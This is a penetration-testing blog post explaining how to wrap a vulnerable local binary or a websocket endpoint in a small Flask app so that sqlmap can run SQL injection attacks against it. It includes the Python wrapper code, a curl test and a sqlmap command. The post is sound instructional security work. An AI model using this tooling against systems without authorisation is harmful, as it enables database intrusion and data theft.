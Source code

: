 ```yaml
---
layout: post
title: SQLMap ALL the Things!
date: 2023-06-05 14:34 -0400
categories: [Python]
tags: [hacking, sqlmap, sql injection, python, boilerplate]
---
```


SQLMap is a tremendous tool that we all should know in the infosec field. For those that don't, it is a Swiss Army Knife of SQL Injections. The basic idea is that generally speaking, SQL Injections can be time consuming, and if you need to deal with a blind SQL injection attack and rely on things like `SLEEP` commands, you'll need to script it. Thankfully SQLMap was created to handle exactly this, and it effectively works out so that if you find a SQL Injection point somewhere, you simply point SQLMap at it and it should suss out what's necessary to extract as much data as our user is entitled to viewing. 

SQLMap is, however, tuned to web apps. If there is a SQL Injection point, I think it's safe to say that a vast majority of the time it will be backended to some sort of web app. Meaning HTTP/HTTPS. But what about anything else? What about if you are pentesting a local app that isn't capable of responding via a web service? Or some sort of web-adjacent service like websockets? That certainly happens, and if there is a SQL Injection point there, how do you point SQLMap to it to begin its attack?

My solution: make a web app that translates requests to executing the vulnerable app.

This is my boilerplate code:

```python
#!/usr/bin/env python

from flask import Flask, request

app = Flask(__name__)

@app.route('/', methods=["POST"])
def sql_attack():
    data = request.form['id']

    # do stuff here with the `data` variable

    return result

if __name__ == "__main__":
    app.run(host="127.0.0.1")
```

## SQLMap against a Binary
The above is the wrapper code around whatever command that you need to execute that has an injection point. For example, let's say there is a binary named `/usr/bin/vuln` that gets executed like so:

```sh
/usr/bin/vuln username=agr0 password=letmein query='{"state": "xyz"}'
```

And it should return something like:

```json
{
    "resultState": "'xyz' is not found in our database!"
}
```

We know from testing that the `query` attribute is vulnerable, by including the value of `{"state": "xyz'"}` (note the additional single quote). It communicates through to the backend using some sort of proprietary communication protocol that we can't easily sniff using wireshark, or worse -- we don't have access to sniff that network!

I can use the above boilerplate code to wrap the invocation of the binary around an HTTP POST request:

{% raw %}
```python
#!/usr/bin/env python

from flask import Flask, request
import subprocess

app = Flask(__name__)

@app.route('/', methods=["POST"])
def sql_attack():
    data = request.form['id']

    # do stuff here with the `data` variable
    proc = subprocess.run(["/usr/bin/vuln", "username=agr0", "password=letmein",
                           f"query='{{\"state\": \"{data}\"}}'"], stdout=subprocess.PIPE,
                           universal_newlines=True)
    return proc.stdout

if __name__ == "__main__":
    app.run(host="127.0.0.1")
```
{% endraw %}
Note the use of the double curl-braces, this is to escape the literal curly braces and add the python format-string variable.

Now if I execute this code, I can test it with:

```sh
curl -XPOST -d "id=xyz" http://localhost:5000
```

This should return the exact same output as the above. Now we have it wrapped in the HTTP protocol so we can point sqlmap to it!

```sh
sqlmap -u http://localhost:5000 --data 'id=xyz' -p id
```

Now sqlmap should work as normal against the binary!

## SQLMap against Websockets

Using the same idea as above, I will tailor my attack towards a websocket now that we have tested for a potential SQL Injection Vulnerability. For this, I will use python's `websocket` libary to make the connection.

Let's say for example that an endpoint at `/cx` is vulnerable. The payload it expects is a json object, specifically `{"connectionID": "ABCD123"}`, and it is SQL Injectable via escaping quotes, where the connection dumps an error message and severs the websocket connection.

Using the above boilerplate, I'll tailor it a little bit to make a websocket connection. Python really can do everything.

```python
#!/usr/bin/env python3

from websocket import create_connection
import json
from flask import Flask, request

ws_host = "ws://10.20.30.40:5789"

app = Flask(__name__)

@app.route('/', methods=["POST"])
def webs_attack():
    data = request.form['id']
    ws = create_connection(ws_host + '/cx')
    d = {"connectionID": data}
    ws.send(json.dumps(d))
    print("Sending:", json.dumps(d))
    result = ws.recv()
    print("Received:", result)
    ws.close()
    return result

if __name__ == "__main__":
    app.run(host="127.0.0.1")
```

Now for every connection made to `http://localhost:5000/` via a POST request and sending `id=xyz` it will set up the websocket connection, build the JSON payload, send it, and cleanly sever the websocket. By doing this, I can now point SQLMap to this code and it will forward the request to the endpoint on the websocket and return the result.

## Conclusion
Hopefully you can see the versatility of using Flask to serve as a quick-and-dirty web frontend which can potentially expand upon the attack surface of a lot of tools. SQLMap is the first thing that comes to mind, but I wonder what else can be used like this?